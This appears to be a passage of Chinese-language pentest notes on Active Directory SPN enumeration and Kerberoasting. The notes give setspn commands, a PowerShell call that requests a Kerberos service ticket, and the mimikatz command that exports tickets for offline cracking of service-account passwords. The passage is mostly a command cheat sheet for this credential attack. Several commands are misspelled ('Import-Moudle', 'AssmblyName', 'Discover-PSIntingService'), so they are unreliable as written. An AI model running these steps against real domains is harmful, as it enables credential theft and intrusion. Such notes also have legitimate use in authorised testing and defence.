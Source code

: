```
https://github.com/PyroTek3/PowerShell-AD-Recon

所有spn服务扫描
https://github.com/PyroTek3/PowerShell-AD-Recon/blob/master/Discover-PSInterestingServices

Import-Moudle .\Discover-PSInterestingServices
Discover-PSIntingService
```
- Windows自带

```
setspn -T domain -q */*
```

#### Kerberoast

- 手动注册SPN

```
setspn -A MSSQLSvc/computer1.pentest.com:1433 mssql
```
- 查看用户所对应的SPN 

```
setspn -L pentest.com\mssql
```

- 查看所有注册的SPN

```
setspn -T domain -q */*
```
- adsiedit.msc查看用户spn以及其他高级属性

- 配置指定服务的登陆权限

```
gpedit.msc\Computer Configuration\Windows Settings\Security Settings\Local Policies\User Pights Assignment\Log on as a service
```

- 修改加密类型

```
gpedit.msc\Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network security; Configure encryption types allowed
```

- 请求SPN Kerberos票据

```
Add-Type -AssmblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestor SecurityToken-ArgumentList "MSSQLSvc/computer1.pentest.com"
```

- 导出票据

```
kerberos::list /export
```
